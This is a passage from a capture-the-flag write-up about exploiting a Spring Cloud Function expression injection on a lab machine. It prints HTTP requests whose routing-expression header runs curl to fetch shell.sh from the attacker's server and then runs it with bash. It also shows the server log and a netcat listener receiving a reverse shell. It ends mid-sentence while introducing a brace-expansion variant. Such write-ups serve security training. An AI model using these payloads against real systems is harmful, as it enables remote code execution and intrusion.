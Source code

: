I'll set up a Python webserver (`python -m http.server 80`) and send
this request. There is a request back to my server, but it's for
`/shell.sh|bash`:



    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.204 - - [13/Mar/2023 18:40:40] code 404, message File not found
    10.10.11.204 - - [13/Mar/2023 18:40:40] "GET /shell.sh|bash HTTP/1.1" 404 -



The `|` is being interpreted as part of the path. Instead, I can save
the file in `/tmp`:



    POST /functionRouter HTTP/1.1
    spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.6/shell.sh -o /tmp/0xdf.sh")
    Host: 10.10.11.204:8080
    ...[snip]...



And then send another request to run it:



    POST /functionRouter HTTP/1.1
    spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/0xdf.sh")
    Host: 10.10.11.204:8080
    ...[snip]...



At `nc`, there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.204 60606
    bash: cannot set terminal process group (820): Inappropriate ioctl for device
    bash: no job control in this shell
    frank@inject:/$ 



#### Success by Brace Expansion

[Brace
expansion](https://www.gnu.org/software/bash/manual.md_node/Brace-Expansion.md)
is something I use daily in `bash`. For example, when I need to move
`file_20230313-2046.png` to `file_20230313-2046-orig.png`, I'll do:



    $ mv file_20230313-2046{,-orig}.png



When I submit a payload like this:
